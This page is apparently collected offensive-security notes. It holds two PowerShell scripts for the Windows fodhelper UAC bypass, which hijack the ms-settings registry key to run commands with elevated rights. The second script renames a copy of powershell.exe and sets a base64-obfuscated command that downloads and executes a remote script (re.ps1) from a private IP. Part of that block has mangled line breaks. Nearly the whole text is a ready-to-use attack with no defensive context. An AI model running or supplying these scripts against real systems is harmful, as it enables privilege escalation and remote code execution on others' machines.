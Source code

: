 - https://www.bordergate.co.uk/bypassing-lsa-protections/

## Powershell Fodhelper bypass

```powershell
function FodhelperBypass(){ 
 Param (
           
        [String]$program = "cmd /c start powershell.exe" #default
       )

    #Create registry structure
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force

    #Perform the bypass
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

    #Remove registry structure
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force

}

```

```powershell
function RegStuff { 
	$cmd = "C:\Windows\Tasks\foo.exe -enc aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADkALgA2ADgALwByAGUALgBwAHMAMQAnACkA" 
	copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe  C:\Windows\Tasks\foo.exe 
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue 
	New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force 
	New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force 
	Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force 
	} f
	unction PrivEsc { 
	Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden Start-
	Sleep -s 3 
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue 
	} 
RegStuff
```

